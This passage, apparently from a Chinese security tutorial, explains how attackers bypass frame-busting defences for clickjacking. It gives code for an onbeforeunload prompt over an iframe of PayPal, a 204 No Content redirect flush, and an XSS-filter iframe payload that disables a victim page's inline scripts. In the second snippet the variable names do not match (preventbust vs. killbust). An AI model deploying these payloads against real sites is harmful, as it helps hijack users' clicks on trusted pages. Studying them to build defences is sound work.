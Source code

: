 攻击者使用下面的代码来在父层页面注册一个 unload 事件：

```
<script>
window.onbeforeunload = function()
{
  return "Asking the user nicely";
}
</script>
<iframe src="http://www.paypal.com"> 
```

PayPal 的框架保护代码将会生成一个 BeforeUnload 事件，从而激活我们的函数，提示用户取消这次跳转事件。

## 无内容冲洗

上一个攻击需要用户“参与”，同样的攻击也可以在不提示用户的情况下发生。大多数浏览器（IE7, IE8, Google Chrome, and Firefox）让攻击者在 onBeforeUnload 事件中通过重复提交跳转请求到一个返回空内容的页面(HTTP/1.0 204 No Content)。请求一个无内容页面是一个 NOP，会刷新请求管道，从而取消原来的跳转。下面是示例代码(**经测试最新的 chrome、firefox、safari 已经不支持这个特性**)：

```
var preventbust = 0
window.onbeforeunload = function() { killbust++ }
setInterval( function() {
  if(killbust > 0){
  killbust = 2;
  window.top.location = 'http://nocontent204.com'
  }
}, 1);
<iframe src="http://www.victim.com"> 
```

## 利用 XSS 过滤器

IE8 和 Google Chrome 引入反射性 XSS 过滤器，这有助于保护 web 页面免遭某些类型的 XSS 攻击。Nava 和 Lindsay（供职于 Blackhat 公司）观察到这些过滤器能被用来绕过框架保护代码。IE8 的 XSS 过滤器使用一组正则表达式来比较请求的参数，以此来找到特定的 XSS 攻击。使用“假性诱导技术”，过滤器能被用来禁止某些的脚本。通过匹配请求参数中的所有脚本标签的开头，XSS 过滤器会禁用页面内所有内联脚本，包括框架保护脚本。对于外部脚本也可以使用同样的手法来禁用所有外部脚本。因为加载的 javascript 还可以调用、cookie 也可用，这种攻击对点击劫持十分有效。

**被攻击页面的防护代码**

```
<script>
if(top != self) {
  top.location = self.location;
}
</script> 
```

**攻击页面代码:**

```
<iframe src="http://www.victim.com/?v=<script>if''> 
```

XSS 过滤器将匹配受攻击页面的参数`<script>if`，从而禁用受害者页面所有的内联脚本，包括框架保护代码。
